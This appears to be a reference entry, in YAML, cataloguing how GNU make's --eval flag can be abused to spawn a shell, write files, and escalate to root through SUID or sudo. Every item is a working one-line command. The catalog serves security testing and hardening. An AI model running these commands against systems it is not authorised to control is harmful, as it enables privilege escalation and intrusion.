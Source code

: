 ```yaml
---
description: |
  All these examples only work with GNU `make` due to the lack of support of the
  `--eval` flag. The same can be achieved by using a proper `Makefile` or by
  passing the content via stdin using `-f -`.
functions:
  execute-interactive:
  - code: |
      COMMAND='/bin/sh'
      make -s --eval=$'x:\n\t-'"$COMMAND"
  file-write:
  - description: Requires a newer GNU `make` version.
    code: |
      LFILE=file_to_write
      make -s --eval="\$(file >$LFILE,data)" .
  suid-enabled:
  - code: |
      COMMAND='/bin/sh -p'
      ./make -s --eval=$'x:\n\t-'"$COMMAND"
  sudo-enabled:
  - code: |
      COMMAND='/bin/sh'
      sudo make -s --eval=$'x:\n\t-'"$COMMAND"
---
```

